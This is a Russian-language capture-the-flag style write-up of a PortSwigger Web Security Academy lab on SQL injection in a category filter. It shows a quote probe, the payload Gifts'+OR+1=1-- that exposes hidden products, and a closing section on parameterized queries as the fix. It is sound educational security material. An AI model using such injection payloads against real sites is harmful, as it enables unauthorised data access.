



# Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

**Платформа:** PortSwigger Web Security Academy  
**Категория:** SQL Injection  
**Сложность:** Apprentice  
**Дата:** 2025-07-07

---

## TL;DR

Приложение уязвимо к SQL-инъекции в параметре фильтрации категорий.
Добавив условие `OR 1=1` удалось отобразить все товары включая скрытые.

---

## Описание уязвимости

Приложение подставляет пользовательский ввод напрямую в SQL-запрос
без экранирования. Это позволяет модифицировать логику запроса —
добавить условие которое всегда истинно и получить данные которые
не должны отображаться.

---

## Разведка

Приложение — интернет-магазин с фильтрацией по категориям.
Точка входа: параметр `category` в URL.

```http
GET /filter?category=Gifts HTTP/1.1
Host: target.com
```

Предположительно на сервере выполняется запрос вида:
```sql
SELECT * FROM products 
WHERE category = 'Gifts' AND released = 1
```

Поле `released = 1` скрывает товары которые ещё не опубликованы.

---

## Эксплуатация

### Шаг 1 — Проверяем наличие инъекции
Добавляем одиночную кавычку:
```http
GET /filter?category=Gifts' HTTP/1.1
```
Сервер вернул 500 Internal Server Error — ввод попадает в запрос
без экранирования, кавычка сломала SQL-синтаксис.

### Шаг 2 — Формируем payload
```http
GET /filter?category=Gifts'+OR+1=1-- HTTP/1.1
```

Итоговый SQL-запрос на сервере:
```sql
SELECT * FROM products 
WHERE category = 'Gifts' OR 1=1--' AND released = 1
```

`OR 1=1` — условие всегда истинно, возвращает все строки.
`--` — комментарий, отрезает остаток запроса включая `AND released = 1`.

### Шаг 3 — Результат
Страница отобразила все товары включая скрытые (released = 0).
Лаба решена.

---

## Скриншоты





---

## Итог
Через модификацию SQL-запроса получили доступ к скрытым товарам
которые не должны были отображаться обычным пользователям.

---

## Защита
```python
# Плохо — конкатенация строк:
query = "SELECT * FROM products WHERE category = '" + category + "'"

# Хорошо — параметризованный запрос:
cursor.execute(
    "SELECT * FROM products WHERE category = %s AND released = 1",
    (category,)
)
```
Параметризованные запросы полностью исключают SQL-инъекцию —
пользовательский ввод никогда не интерпретируется как SQL-код.